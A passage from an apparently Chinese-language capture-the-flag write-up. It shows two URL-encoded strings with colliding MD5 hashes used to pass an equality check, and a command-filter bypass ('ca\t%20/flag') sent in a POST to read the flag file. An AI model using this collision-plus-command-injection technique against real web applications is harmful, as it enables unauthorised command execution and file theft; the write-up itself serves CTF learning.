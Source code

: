     ```
    a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

    b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
    ```

*   找到上面两个md5真实相等的两个字符串。即可绕过。积累了。

*   但同时，cmd参数过滤了很多关键字。最常用的`cat /flag` 命令因为cat和空格被过滤不可用。

*   可以用ca\t%20/flag绕过。%20代替空格。反斜杠被忽略。[参考文章](https://www.cnblogs.com/fnlingnzb-learner/p/6839669.html)
    ![在这里插入图片描述](img/c612332c10b393189d8db7e67ef912e2.png)

*   最终payload，抓包，post传入a、b变量，并赋值cmd。
    ![在这里插入图片描述](img/3c0cafa923fe91dba8bc068b9c982dc1.png)
